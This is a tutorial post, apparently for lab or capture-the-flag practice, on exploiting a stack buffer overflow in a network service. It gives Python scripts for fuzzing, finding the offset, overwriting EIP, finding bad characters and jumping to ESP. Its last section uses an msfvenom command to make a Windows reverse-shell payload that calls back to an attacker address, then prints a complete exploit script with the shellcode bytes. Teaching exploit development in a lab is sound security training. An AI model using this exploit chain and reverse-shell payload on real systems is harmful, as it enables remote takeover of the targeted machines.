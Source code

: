 ```yaml
---
author: Charlie T
title: Stack Buffer Overflow
date: 2024-03-10
description: A guide on how to conduct a stack-based buffer overflow
math: false
tags:
  - overflow
  - python
  - bufferoverflow
---
```

## Fuzzing

- Playing around with the application first to see how to send it bytes will allow to then do some fuzzing to see where and when it crashes
- Lets assume we have information on how to send data over to the application to being the fuzzing
```python
#!/usr/bin/python3
import sys, socket
from time import sleep
#Prefix is needed if the app requires a command to be sent with data
#prefix = "OVERFLOW3 " #Make sure to add prefix to payload
buffer = "A" * 100

while True:
    try:
        payload = buffer + '\r\n'
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.0.131', 31337))
        print("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()

```

- Pay attention to Immunity debugger, once it says `paused` that means the application has crashed. Take note at what amount of bytes the application crashed.
- In this example we will say that it crashed at `200 bytes`

## Finding the Offset

- Using a metasploit tool called pattern_create
```
#This will give us a pattern for our buffer variable
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
#why 200? thats where we saw that the crash happened approx in bytes
```
- Make sure to input this pattern into your buffer variable in the code:
```python
#!/usr/bin/python3
import sys, socket
#prefix = "OVERFLOW3 "
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- You will now be able to see the `EIP` which is what we need
![landscape](gettingthe_eip.png)

- Using a metasploit tool called pattern_offset
```
#This will give us the exact offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <approx bytes when crash> -q <EIP finding>
```

- In this case, our offset is 146

## Overwriting the EIP

- Now that we have our offset, we will add our offset number into our payload variable as such:
```python
#!/usr/bin/python3
import sys, socket

#prefix = "OVERFLOW3 "
buffer = "A" * 146 + "B" * 4

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- When we run this payload, we will see that we now have complete control of the EIP
![landscape](overwriting_eip.png)

- We can see that the EIP is 42424242, which tells us that we have control of the EIP

## Finding Bad Characters

- We will now try to find bad characters to remove them
1. First set mona's path with `!mona config -set workingfolder c:\mona\%p`
2. Using mona to generate bad chars with `!mona bytearray -b “\x00”`
3. Input the bad chars into our python script and run it
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"B" * 4

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"   b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"            b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"            b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

print('Sending payload...')
payload = buffer + badchars + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
4. Grab the `ESP` which in this case is `007419E4`. Mona will use the ESP to compare and find bad characters
5. Using mona to compare and find bad chars with `!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <ESPaddress>`
![landscape](comparingbadchars_mona.png)
6. Remove the bad char from our badchars variable in our python script

## Finding a Jump Point

- Using mona to find a jump point with `!mona jmp -r esp -cpb “\x00\x0a”`
- Click on `l` to see all the available pointer addresses
- In this case we will use: `0x080414c3`
- We are only interested in the contents of the address that comes after "0x"

## Making Sure We Hit The Break point

- We have everything we need. We must make sure to set a jmp point at that address we received with mona
- To do this:
1. Restart Application and immunity Debugger
2. Click on the blue arrow and enter the address after the "0x" to follow it: `080414c3`
3. You will see the "address FFE4 JMP ESP", Now click F2 and it should be highlighted which means the JMP is now set
- Now just put our pointer address into our python script as such:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
#Note that our address 080414C3 is now written backwards in pairs of two with an x in front
buffer = b"A" * 146 + b"\xc3\x14\x04\x08"
print('Sending payload...')
payload = buffer + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
- Run the payload and we should see a message in immunity debugger that says `breakpoint at <program>`

## Malicious Time!

- Create a reverse shell payload with meterpreter:
```
#Make sure to put all of your bad chars found
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.33.34 LPORT=1234 -b "\x00\x0a" -f c
```
- Grab the output and input into the variable bad chars in our python script
- Then edit the IP to the target IP and start a listener on the port specified with msfvenom:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"\xc3\x14\x04\x08" + b"\x90" * 32

payload2 = (b"\xda\xcf\xba\xbe\x17\x2b\x4f\xd9\x74\x24\xf4\x5f\x33\xc9"            b"\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\xe9\x04\xc9\xba\xe9"
b"\xc3\x8f\x45\x11\x14\xf0\xcc\xf4\x25\x30\xaa\x7d\x15\x80"            b"\xb8\xd3\x9a\x6b\xec\xc7\x29\x19\x39\xe8\x9a\x94\x1f\xc7"
b"\x1b\x84\x5c\x46\x98\xd7\xb0\xa8\xa1\x17\xc5\xa9\xe6\x4a"            b"\x24\xfb\xbf\x01\x9b\xeb\xb4\x5c\x20\x80\x87\x71\x20\x75"
b"\x5f\x73\x01\x28\xeb\x2a\x81\xcb\x38\x47\x88\xd3\x5d\x62"            b"\x42\x68\x95\x18\x55\xb8\xe7\xe1\xfa\x85\xc7\x13\x02\xc2"
b"\xe0\xcb\x71\x3a\x13\x71\x82\xf9\x69\xad\x07\x19\xc9\x26"            b"\xbf\xc5\xeb\xeb\x26\x8e\xe0\x40\x2c\xc8\xe4\x57\xe1\x63"
b"\x10\xd3\x04\xa3\x90\xa7\x22\x67\xf8\x7c\x4a\x3e\xa4\xd3"            b"\x73\x20\x07\x8b\xd1\x2b\xaa\xd8\x6b\x76\xa3\x2d\x46\x88"
b"\x33\x3a\xd1\xfb\x01\xe5\x49\x93\x29\x6e\x54\x64\x4d\x45"            b"\x20\xfa\xb0\x66\x51\xd3\x76\x32\x01\x4b\x5e\x3b\xca\x8b"
b"\x5f\xee\x5d\xdb\xcf\x41\x1e\x8b\xaf\x31\xf6\xc1\x3f\x6d"            b"\xe6\xea\x95\x06\x8d\x11\x7e\x23\x5f\x38\x5c\x5b\x5d\x3a"
b"\xa4\x49\xe8\xdc\xce\x7d\xbd\x77\x67\xe7\xe4\x03\x16\xe8"            b"\x32\x6e\x18\x62\xb1\x8f\xd7\x83\xbc\x83\x80\x63\x8b\xf9"
b"\x07\x7b\x21\x95\xc4\xee\xae\x65\x82\x12\x79\x32\xc3\xe5"            b"\x70\xd6\xf9\x5c\x2b\xc4\x03\x38\x14\x4c\xd8\xf9\x9b\x4d"
b"\xad\x46\xb8\x5d\x6b\x46\x84\x09\x23\x11\x52\xe7\x85\xcb"            b"\x14\x51\x5c\xa7\xfe\x35\x19\x8b\xc0\x43\x26\xc6\xb6\xab"            b"\x97\xbf\x8e\xd4\x18\x28\x07\xad\x44\xc8\xe8\x64\xcd\xf8"
b"\xa2\x24\x64\x91\x6a\xbd\x34\xfc\x8c\x68\x7a\xf9\x0e\x98"
b"\x03\xfe\x0f\xe9\x06\xba\x97\x02\x7b\xd3\x7d\x24\x28\xd4"            b"\x57")

print('Sending payload...')
payload = buffer + payload2 + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.20.232', 31337))
s.send(payload)
s.close()
```
- Success!

![Successful BoF Attack](successfulBoF.png)
